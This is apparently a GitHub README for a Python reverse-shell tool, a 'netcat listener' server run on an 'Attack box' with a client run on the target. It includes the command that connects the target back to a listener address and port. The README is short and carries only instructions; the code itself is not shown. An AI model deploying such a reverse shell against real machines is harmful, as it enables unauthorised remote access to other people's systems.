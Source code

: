# Python-server-Client
A python server that acts as netcat listener.Gaining remote access to server/client.

## How to work with `Python-server-Client`
- Run `python3 server.py` to open server(Attack box)
![img](server.jpg)

-This sets listener to 192.168.43.148 on port 5004.

-On Targets machine run the client `python3 client.py 192.168.43.148`
![img](client.jpg)

This creates a reverse connection on the server.py page
![img](connect.jpg)
